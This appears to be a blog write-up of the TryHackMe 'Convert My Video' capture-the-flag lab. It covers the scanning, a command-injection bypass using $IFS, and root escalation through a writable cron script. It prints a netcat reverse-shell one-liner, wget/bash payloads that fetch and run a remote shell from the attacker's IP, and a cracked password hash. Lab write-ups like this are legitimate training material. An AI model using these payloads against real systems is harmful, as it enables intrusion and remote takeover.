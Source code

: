 ```yaml
---
layout: post
title: THM Convert My Video writeup
excerpt_separator: <!--more-->
---
```

<img src="/img/Convertmyvideo/0.head.png">
<!--more--> 
<p></p>
<a href="https://tryhackme.com/room/res" target="_blank" > Click here to access this box on tryHackMe.com</a>
<hr>


<p> Strat by enumerating  ports with a basic NMAP Scan.</p>
<p>Below we see that ports 22 and 80 are open. Let’s enumerate them further.</p>
<img src="/img/Convertmyvideo/1.nmap-scan.png">

<p>We can see that ports 22 is running openSSH ver 7.6p1 and port 80 is running Apache 2.4.29. Next let’s use namp to scan all 65k ports. </p>
<img src="/img/Convertmyvideo/2.namp-scan-2.png">

<p>This will take awhile so while we wait let’s navigate over to port 80 in a web browser. </p>
<img src="/img/Convertmyvideo/3.namp-scan.png">

<p>There’s a simple page with a text box and a button that says convert. My first thought is to check the source code and use gobuster to find any hidden directories. First let start up gobuster.</p>
<img src="/img/Convertmyvideo/4.index-page.png">

<p>Using gobuster I’m going to search for any files with a .txt,.php and .mp3 extension because of the clues on site. While that’s running let’s check source code and check back in on the nmap scan.</p>
<img src="/img/Convertmyvideo/5.gobuster-start.png">

<p>Namp only shows ports 22 and 80 open. Next i’m going to review the websites source code.</p>
<img src="/img/Convertmyvideo/6.nmap-scan3.png">

<p>After spending some time  hours fuzzing the input I intercepted  the post request in burp suite and tried some basic command line injections.  I was able to successfully get a response back from the server by encapsulating the id command with backtick ( `id` ) not to be confused with single quotes (‘id’). Below is the output from the injection command in burp suite </p>
<img src="/img/Convertmyvideo/7.comand-line-injection.png">

<p>Something I struggled with for a bit was the command injection. It would not accept a space or tab so I could issue the command ‘ls’ but ‘ls -la’ would fail. I tried things like URL encoding the space (%20) `ls%20-ls`, but that didn't work either. I needed to find an alternate argument separator. What ultimately ended up working was $IFS$9. The $IFS is an environmental variable  which is space by default. Additionally we add $9, which is just a holder of the ninth argument of the current system shell process (which is always an empty string). </p>
<img src="/img/Convertmyvideo/8.fuzzed-injection.png">

<p>Let’s see if we can get a nc reverse shell to call back to us. First we setup our listener on our local machine.</p>
<img src="/img/Convertmyvideo/9.nc-listen.png">

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.3.153 4444 >/tmp/f
`wget${IFS}10.13.3.153:7777/nc-revshell-oneline`
`bash${IFS}nc-revshell-oneline`
python -c 'import pty; pty.spawn("/bin/bash")'

itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/ = jessie

/var/www/html/admin/.htpasswd  

<p>Let’s try and upload a reverse shell file using php.</p>
<p>here is the php code I’m going to attempt to upload</p>
<img src="/img/Convertmyvideo/10.rev-shell-code.png">

<p>Now let's host this file on our local machine</p>
<img src="/img/Convertmyvideo/11.python-server.png">

<p>Back to burp suite let’s issue a wget to download the file to the victim machine</p>
<img src="/img/Convertmyvideo/12.wget-from-burp.png">

<p>Now when I tried to call the reverse shell code by abusing the command line injection command in burp suite (`./name-of-my-file’) it wouldn’t work.I’m assuming the period (.) in the command was causing the issue. What ultimately work was calling `bash${IFS}name-of-uploded-shell-code`.</p>
<p> Below I setup a listener on my local machine. </p> 
<p> And then issue the command line injection payload in burp suite.</p>
<img src="/img/Convertmyvideo/13.lister-4444.png">
<img src="/img/Convertmyvideo/14.burp-command-calling-the-nc-file.png">

<p>Now we have a shell as www-data. Let’s cat the user flag and begin our enumeration for privesc.</p>
<img src="/img/Convertmyvideo/15.user-flag.png">

<p>Just poking around in the filesystem, I found a file name clean.sh. When I read out this file it was removing everything in the downloads folder. Although it doesn't show  cron job  was calling this - it seemed suspect, so I thought I’d give it a shot. Since www-data was the owner of the file I changed the mode of the clean.sh file to 777 so I could modify the file  and change the bash command from ‘rm -fr downloads’ to the reverse shell one liner I used earlier - but with a different port number. </p>
<img src="/img/Convertmyvideo/16.clean.sh-code.png">


<p>I’m not sure if it was just luck but almost instantly after setting up my nc listener on my local machine I got a call back and it was running as the root user.</p>
<img src="/img/Convertmyvideo/17.root.txt.png">

<p>This box took me a lot longer than expected. I spent about 4 hours on the initial shell, and I think I may have lucked out on the privesc. Overall, I enjoyed the box and learned something new along the way. Kudos to the creator.  </p> 
